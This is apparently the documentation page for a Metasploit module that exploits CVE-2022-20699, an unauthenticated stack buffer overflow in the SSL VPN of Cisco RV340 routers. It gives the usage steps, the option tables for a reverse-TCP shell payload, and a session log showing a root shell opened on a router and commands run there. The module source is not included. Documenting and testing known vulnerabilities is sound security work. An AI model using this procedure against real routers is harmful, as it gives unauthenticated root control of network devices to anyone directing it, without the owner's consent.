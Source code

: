 ## Description

This module exploits a stack buffer overflow ([CVE-2022-20699](https://nvd.nist.gov/vuln/detail/CVE-2022-20699)) in the [Cisco RV series](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-smb-mult-vuln-KA9PK6D.html) routers SSL VPN functionality. The default SSL VPN configuration is exploitable, with no authentication required and works over the Internet as seen in [this video](https://www.youtube.com/watch?v=O1uK_b1Tmts)!

The stack is executable and no ASLR is in place, which makes exploitation easier.
Successful execution of this module results in a reverse root shell. A custom payload is used as Metasploit does not have ARMLE null free shellcode.
This vulnerability was presented by the [Flashback Team](https://twitter.com/flashbackpwn) in [Pwn2Own Austin 2021](https://www.thezdi.com/blog/2021/11/1/pwn2ownaustin) and [OffensiveCon 2022](https://www.offensivecon.org/speakers/2022/radek-domanski-and-pedro-ribeiro.html).

This module has been tested in firmware versions 1.0.03.15 and above and works with around 65% reliability. The service restarts automatically so you can keep trying until you pwn it.

Only the [RV340 router](https://www.cisco.com/c/en/us/products/routers/rv340-dual-gigabit-wan-vpn-router/index.html) was tested, but other RV series routers should work out of the box.

For more information, check the advisory [here](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Austin_2021/flashback_connects/flashback_connects.md) and [here](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Austin2021/flashback_connects/flashback_connects.md). 


## Vulnerable Application

Cisco RV340 Router, firmware versions 1.0.03.24 and below. The bug is fixed in 1.0.03.26 and above.

## Verification Steps

  1. Connect to the target on the WAN interface (or provide IP address)
  2. Make sure the SSLVPN service is turned on for the correct WAN interface
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/cisco_rv340_sslvpn.rb`
  4. Set RHOST, RPORT, LHOST and LPORT
  5. Do `check`
  6. Do: `run`
  7. You should get a shell.

## Options
```
Module options (exploit/linux/misc/cisco_rv340_sslvpn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Meta
                                       sploit
   RPORT    8443             yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   Cisco RV340 Firmware Version <= 1.0.03.24
```

## Scenarios
```
```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux
```
